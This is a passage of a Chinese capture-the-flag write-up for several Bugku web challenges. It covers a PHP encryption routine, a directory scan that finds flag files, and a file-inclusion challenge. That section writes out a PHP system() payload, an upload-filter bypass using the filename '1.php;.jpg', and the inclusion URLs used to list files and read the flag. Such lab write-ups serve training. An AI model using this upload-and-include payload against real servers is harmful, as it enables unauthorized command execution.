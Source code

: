 web部分的37-50题

# PHP_encrypt_1(ISCCCTF)

题目给了一段密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

还有一个压缩包，解压后发现了下面的php代码

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

# 文件包含2

查看源码，发现注释中有 upload.php 的提示，于是打开 http://123.206.31.85:49166/upload.php，发现是文件上传。

在php文件里写入 `<script language=php>system("ls")</script>` ，列当前目录，修改后缀名为jpg,如1.php;.jpg,上传成功，如下图所示：

访问 http://123.206.31.85:49166/index.php?file=upload/201911191206089664.jpg，提示我们：about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php。

然后访问 http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt，得到flag

# sql注入2

题目网站：http://123.206.87.240:8007/web2/

直接在后面加上 flag，即http://123.206.87.240:8007/web2/flag，然后下载了一个文件结果就是flag，但是不知道是什么原因，御剑没有扫出来。

# Trim的日记本

使用御剑扫描出来下面的结果，然后打开发现flag，竟然真的是flag

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/Trim%E7%9A%84%E6%97%A5%E8%AE%B0%E6%9C%AC.png)